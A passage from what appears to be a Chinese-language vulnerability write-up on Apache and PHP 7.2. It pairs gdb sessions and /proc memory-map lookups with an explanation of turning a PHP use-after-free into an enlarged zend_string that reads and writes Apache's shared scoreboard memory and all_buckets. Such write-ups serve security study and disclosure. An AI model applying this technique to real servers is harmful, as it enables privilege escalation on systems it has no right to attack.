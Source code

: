 ```
root@apaubuntu:~# cat /proc/6318/maps | grep libphp | grep rw-p

7f4a8f9f3000-7f4a8fa0a000 rw-p 00471000 08:02 542265 /usr/lib/apache2/modules/libphp7.2.so

 

(gdb) p *ap_scoreboard_image

$14 = `{`

  global = 0x7f4a9323e008,

  parent = 0x7f4a9323e020,

  servers = 0x55835eddea78

`}`

(gdb) p all_buckets

$15 = (prefork_child_bucket *) 0x7f4a9336b3f0
```

考虑到我们触发了PHP对象中的UAF，对象中的任意属性都属于UAF漏洞的范围。我们可以将zend_object UAF改为zend_string，从而获得一个zend_string结构。



```
(gdb) ptype zend_string

type = struct _zend_string `{`

    zend_refcounted_h gc;

    zend_ulong h;

    size_t len;

    char val[1];

`}`
```

len属性包括了字符串的长度，通过增加它，我们可以读写之后的内存空间，也就是说能访问到我们感兴趣的两个内存空间：SHM和Apache的all_buckets

找到bucket的index值和all_bucket

我们需要改变ap_scoreboard_image-&gt;parent[worker_id]-&gt;bucket来获得特定的worker_id。好在这个结构每次都在共享内存空间的头部位置，很方便我们去定位。

共享内存空间和目标process_socre结构



```
root@apaubuntu:~# cat /proc/6318/maps | grep rw-s

7f4a9323e000-7f4a93252000 rw-s 00000000 00:05 57052                      /dev/zero (deleted)

 

(gdb) p &amp;ap_scoreboard_image-&gt;parent[0]

$18 = (process_score *) 0x7f4a9323e020

(gdb) p &amp;ap_scoreboard_image-&gt;parent[1]

$19 = (process_score *) 0x7f4a9323e044
```
